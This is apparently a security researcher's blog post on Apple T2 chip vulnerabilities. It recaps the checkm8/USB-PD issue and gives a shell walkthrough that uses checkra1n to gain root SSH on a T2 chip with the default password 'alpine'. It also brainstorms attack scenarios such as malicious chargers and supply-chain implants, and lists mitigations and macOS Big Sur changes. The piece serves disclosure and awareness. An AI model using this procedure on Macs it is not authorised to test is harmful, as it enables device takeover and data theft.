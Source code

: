 +++
date = "2020-10-16T09:16:31+02:00"
title = "macOS Big Sur, the T2rminator?"
layout = "blog"
draft = false
+++

**Questions raised since the last blog post and the recent release of macOS Big Sur and the M1 chip require some clarification.**

## Preface

My previous blog post around the T2 vulnerabilities on Apple hardware caused a wave of news articles describing the issue, ranging from terrible copied to actually being written in a better way. I'm glad the post triggered such a wide reaction and reached its end goal: awareness.

A couple of interesting links if you aren't up to speed around the issue:

- Blog *T2 Research Team*: [On bridgeOS / T2 Research](https://blog.t8012.dev/on-bridgeos-t2-research/)
- Article *AppleInsider*: [Apple's T2 chip has an unfixable vulnerability that could allow root access](https://appleinsider.com/articles/20/10/05/apples-mac-t2-chip-has-an-unfixable-vulnerability-that-could-allow-root-access)
- Podcast *The Checklist*: [The T2 Vulnerability with Patrick Wardle](https://www.securemac.com/checklist/checklist-202-the-t2-vulnerability-with-patrick-wardle)

## Recap

A tiny recap of what was discussed [in the previous blog post "Crouching T2, Hidden Danger"](/blog/crouching-t2-hidden-danger/):

- The T2 security chip is used for verifying your macOS installation to be safe, keep track of encryption keys, handle touchID/faceID, handle keyboard and do other stuff such as hardware decoding of media formats.
- The T2 security chip in 2018-2020 Mac models is based on the A12 chip, which is vulnerable for the same checkm8 vulnerability.
- The chip can be triggered in booting in DFU mode without any physical attestation (such as holding in the power button) by sending arbitrary packets of information over USB Power Delivery (called "Vendor Defined Messages" or VDMs).
- This can be combined with checkra1n & blackbird vulnerabilities to gain **root** access to the T2 chip by restarting the T2 in DFU mode.

## Exploitation

And now, the moment you've all been waiting for. Let's jailbreak a T2 chip!

```shell
# install devtools
$ xcode-select --install

# check the script & install homebrew
$ /bin/bash -c "$(curl -fsSL https://raw.githubusercontent.com/Homebrew/install/master/install.sh)"

# install packages
$ brew install libplist automake autoconf pkg-config openssl libtool llvm libusb

# git clone, autogen.sh, make & make install
# https://github.com/sbingner/ldid
# https://github.com/libimobiledevice/libusbmuxd
# https://github.com/libimobiledevice/libimobiledevice
# https://github.com/libimobiledevice/usbmuxd

# get the checkra1n beta from https://checkra.in/#release
# and verify the integrity hash matches
$ shasum -a256 checkra1n.app
d4def982494bc0b99c6df57dc94338c205902aaa8949e9ae046812ed57743ccb

# put your macOS device in DFU mode using the Apple Support document
# https://support.apple.com/guide/apple-configurator-2/revive-or-restore-mac-firmware-apdebea5be51/mac

# verify you can see your Mac in DFU mode
$ ioreg -p IOUSB
+-o Root <class I0RegistryEntry, id 0x100000100, retain 17>
  +-o AppleUSBXHCI Root Hub Simulation@14000000 <class AppleUSBRootHubDevice, id 0x100000312, registered, matched, active, busy 0 (2 ms), retain 14>
    +-o Apple Internal Keyboard / Trackpad@14400000 <class AppleUSBDevice, id 0x1000041a8, registered, matched, active, busy @ (2 ms), retain 16>
    +-o BRCM20702 Hub@14300000 <class AppleUSBDevice, id 0x10000420d, registered, matched, active, busy @ (@ ms), retain 12>
    | +-o Bluetooth USB Host Controller@14330000 <class AppleUSBDevice, id 0x100004223, registered, matched, active, busy 0 (1 ms), retain 17>
    +-o Apple Mobile Device (DFU Mode)@14100000 <class AppleUSBDevice, id 0x100004428, registered, matched, active, busy @ (1 ms), retain 14>

# Run checkra1n exploitation & watch the target reboot
$ sudo ./checkra1n.app/Contents/MacOS/checkra1n --cli --verbose-boot --verbose-logging

# Bring up a proxy to dropbear
$ iproxy 2222 44 &

# Connect to T2 with password 'alpine' & profit
$ ssh -p 2222 root@127.0.0.1
```

## Video Examples

And if you can't try out yourself, here are a couple of videos:

### Auto Jailbreaking the T2 Chip

In this example, we are going to jailbreak the T2 chip *without any user interaction*.
This shows the potential for any automated malicious attacks that are possible with hardware inserts.
Some magazines mentioned physical access to be difficult to exploit, but let's not forget that leaving malicious USB sticks is one of the most widely used attack methods for (physical) penetration testing. Or think about [the OMG cable](https://shop.hak5.org/products/o-mg-cable).

[!["auto jailbreak the T2"](https://i.ytimg.com/vi/LRoTr0HQP1U/hqdefault.jpg)](https://www.youtube.com/watch?v=LRoTr0HQP1U "Auto Jailbreaking the T2")

### Replacing the EFI on a Mac

And to prove that we do have in fact full operability on the system, in this case we are swapping the [MacEFI](https://apple.stackexchange.com/questions/98315/what-does-boot-efi-actually-do) with a modified version with a different boot logo.
This basically proves anything is possible once you have T2 access, since it is situated so early in the boot process.

[!["Wiping and Restoring a locked T2 MacBook"](https://i.ytimg.com/vi/uDSPlpEP-T0/hqdefault.jpg)](https://www.youtube.com/watch?v=uDSPlpEP-T0 "Wiping and Restoring a locked T2 MacBook")

## Attack Scenarios

So now we've covered the official things, let's brainstorm for a bit what attack scenarios are possible:

Attack Vectors:

- Supply Chain Attacks: intercepting orders & installing an USB implant in your Mac  
- Malicious peripherals: using various non-Apple peripherals with Macs is very common
- Physical access: stealing your Mac

Potential Attacks:

- There is no reason not to think that state actors have been unlocking Macs & iPhones using this method for a while.
- You buy a new charger or USB adapter from AliExpress or any other market, which actually carries an implant that jailbreaks your T2 and installs kernel malware when connected.
- Someone steals your powered down or locked MacBook and steals your data on disk and iCloud while disabling *Find My* and asks for a ransom.
- Someone steals your Mac, replaces your macOS installation with something infected & puts it back, stealing your bank credentials or spying on you.
- Someone sells you a malicious charger (or replaces yours) which auto-infects your macOS installation on every boot.
- A batch of Macs destined for **a government facility** are intercepted, USB-C hardware implants are inserted and data is exfiltrated over a cellular connection to another state actor. Remember [the SuperMicro hack controversy](https://www.zdnet.com/article/security-researcher-cited-in-supermicro-chip-hack-investigation-casts-doubt-on-story/)? *It's that on steroids.*
- A bunch of malicious cables which are sold to a research facility ship keystrokes to a remote server, allowing for mass theft of intellectual property.

*Fun fact: did you know that your Mac discloses its serial number to every charger connected? Your serial is not so secret after all.*

## Mitigations

1. Supply Chain Attacks : trust on Apple and other researchers to do their job? :-)
2. Malicious peripherals : buy accessories (and Macs for that matter) only from official and reputable shops.
3. Physical Access : keep a close eye on your Mac and [remove the device from iCloud](https://support.apple.com/guide/icloud/remove-a-device-mmfc0eeddd/icloud) in case of theft.
4. Buy a new Mac with a T3 chip :-(
5. Verify your EFI payload with [efivalidate](https://github.com/t8012/efivalidate).
6. Update your Mac! macOS Big Sur includes a couple of mitigations described below.

## Let's add big Sur!

macOS Big Sur finally brings some new security features to the masses, bringing macOS more up to speed compared to its iOS kin:

1. Installing profiles is not longer possible via CLI, requiring graphical confirmation in System Settings or a full MDM enrollment.
This will prevent malware installing malicious profiles for persistence or security degradation like disabling the firewall.

2. Signed System Volumes (SSV) on your boot disk **and the T2 with bridgeOS 5** ensure files on the filesystem are checked for integrity on boot. Only a valid *snapshot* of your system volume is mounted instead of a full copy which is mounted read-only.

3. Kernel extensions are now supposed to be installed as System Extensions which run in user-space. Kernel & System extensions are also stored in a read-only portion in memory.

4. Modifications to the root certificate store now require graphical Administrator3 approval.

## So will M1 fix it all?

Moving different things to the same SoC should at least remove some threat vectors such as Thunderbolt firmware attacks.
In addition, simplifying architecture (such as moving so silicon comparable to the A mobile chips) will always benefit security.
There is no news yet on what kind of T-chip is included in the M1 chip tough, so further research is required.
All we can say for now: it's most probably safer than current Intel-based Macbooks.

*But do you -really- care tough? The new chip's a beast!* As proven by various benchmarks, the *cheapest* MacBook now outperforms the *most expensive* one.
But if you -can- wait, I really suggest to wait for the M2 chip which will most probably blow us away like we've never seen.

## One More Thing

But I shouldn't always bring bad news.

The checkra1n team will be releasing [a T2 SDK](https://github.com/t8012/t2sdk) to develop applications for the T2 bridgeOS to facilitate security research on the T2 platform, along with [a public Wiki page](https://wiki.t8012.dev/) to help others investigate too.

They will also be releasing [a USB-PD screamer cable](https://blog.t8012.dev/plug-n-pwn/#usb-c-debug-probe) allowing others to investigate the USB-PD protocol used by USB-C devices and find new vulnerabilities in this NDA'd Intel protocol.
